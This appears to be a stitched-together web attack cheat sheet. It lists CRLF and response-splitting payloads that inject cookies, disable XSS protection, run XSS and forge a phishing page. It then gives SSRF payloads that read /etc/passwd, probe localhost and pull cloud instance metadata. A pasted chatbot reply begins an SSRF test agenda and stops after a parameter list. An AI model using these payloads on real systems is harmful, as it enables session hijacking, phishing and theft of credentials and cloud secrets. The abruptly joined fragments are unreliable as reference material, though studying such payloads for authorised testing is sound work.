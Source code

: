 URL encoded version

```js
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28document.domain%28%29%E5%98%BE
```

### Exploitation Examples:
#### Add a Cookie:
```
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```
#### Bypass XSS Protection:
```
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a<svg onload=alert(document.domain)>
```
#### Write HTML Response:
```
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```

## 3. Server-Side Request Forgery (SSRF)

### Exploitation Techniques:
1. Abuse trust:
   ```
   any.com/index/php?uri=http://external.com
   ```
2. Bypass IP whitelisting:
   ```
   any.com/index/php?uri=file:/etc/passwd
   ```
3. Scan internal networks:
   ```
   any.com/index/php?uri=http://localhost:1
   ```
4. Cloud metadata extraction:
   ```
   http://169.254.169.254/latest/meta-data/
   ```
Of course, Anvesh. Here’s a **structured agenda-wise SSRF test case list** that can guide your pilot testing workflow. This format is built to flow logically from basic discovery to advanced exploitation and bypass techniques—perfect for methodical execution or automation planning.

## 🧪 SSRF Pilot Testing Agenda

Common parameters to checks: url, uri, dest, destination, redirect, redir, next, data, callback, return, site, domain, feed, host, hostname, port, path, reference, page, continue, window, out, view, show, navigation, to, target, rurl, rlink, link, img_url, file, source, img_src, download_url, proxy, load_url, open, forward, post_url, request_url
